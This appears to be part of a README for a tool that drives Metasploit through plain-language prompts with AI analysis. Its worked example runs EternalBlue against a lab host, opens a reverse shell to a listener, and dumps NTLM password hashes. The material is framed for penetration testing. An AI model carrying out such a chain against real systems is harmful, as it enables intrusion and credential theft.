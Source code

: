 **Analysis Includes**:
- Vulnerability type classification
- Relevant Metasploit modules
- Configuration examples
- Prerequisites and requirements
- Risk assessment
- Mitigation recommendations
- Alternative methods

**Use Cases**:
- Vulnerability research
- Exploit module discovery
- Risk assessment
- Penetration testing planning
- Security advisory analysis

**Requires**: OpenRouter API key configured

---

## Complete Usage Examples

### Example 1: Full Exploitation Workflow

```python
# 1. Search for exploits
"Find exploits for Windows SMB"
# Returns: List including ms17_010_eternalblue

# 2. Analyze exploit with AI
"Analyze the ms17_010 exploit"
# Returns: Technical analysis and recommendations

# 3. Start a listener
"Start a reverse TCP handler on port 4444"
# Returns: Handler started as job 1

# 4. Check vulnerability (optional)
"Run ms17_010 against 192.168.1.100 with check"
# Returns: Target appears vulnerable

# 5. Run the exploit
"Exploit 192.168.1.100 using ms17_010 with reverse TCP to 192.168.1.10:4444"
# Returns: Session 1 created

# 6. Verify session
"What sessions are active?"
# Returns: Session 1 (meterpreter)

# 7. Interact with session
"Run sysinfo in session 1"
# Returns: System information

# 8. Post-exploitation
"Dump password hashes from session 1"
# Returns: NTLM hashes

# 9. Cleanup
"Close session 1"
"Stop job 1"
```
